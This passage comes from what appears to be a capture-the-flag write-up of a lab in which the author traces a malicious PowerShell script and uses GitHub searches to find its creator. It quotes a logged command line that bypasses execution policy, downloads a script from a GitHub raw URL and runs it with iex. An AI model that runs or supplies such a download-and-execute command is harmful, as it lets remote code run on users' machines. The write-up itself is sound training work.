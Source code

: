 Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
</code></pre>

<br>
<p>I accessed the following link provided in the tutorial.</p>

<pre><code>https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1</code></pre>

<br>
<p>and got this ...</p>

![image](https://github.com/user-attachments/assets/8133dd4e-ad47-4621-9057-1e3ef2612f95)

<br>

<p>Then I accessed the link below, also provided in the tutorial.  The objective is investigate M.M.</p>

<pre><code>https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues</code></pre>

<p>and got this ...</p>

![image](https://github.com/user-attachments/assets/069a3c51-1b61-4b17-9d7a-2a88120d855f)

<br>

<p>After clicking on the second link of the previous webpage, I noticed a conversation between <code>MM-WarevilleTHM</code> and <code>Bloatware-WarevilleTHM</code></p>


![image](https://github.com/user-attachments/assets/a10ae21b-4a24-4d27-b354-3468fed3fcf2)

<br>

<p>Here I discover who is M.M. ...</p>

![image](https://github.com/user-attachments/assets/c91bb786-2e16-4f68-9ec6-7ee06e9c2fe9)


<br>

<p>M.M. has 2 repositories: <code>IS</code> and <code>M.M.</code>, and joined GitHub on October 22, 2024.</p>

![image](https://github.com/user-attachments/assets/95d2e62b-b3ba-4877-a3a4-a33734ea418c)

<br>

![image](https://github.com/user-attachments/assets/1760cdf4-c449-484b-8d7b-75108c020896)

<br>

<p>Next I identified the number of commits on the GitHub repo where the issue was raised, which is <code>IS</code></p>
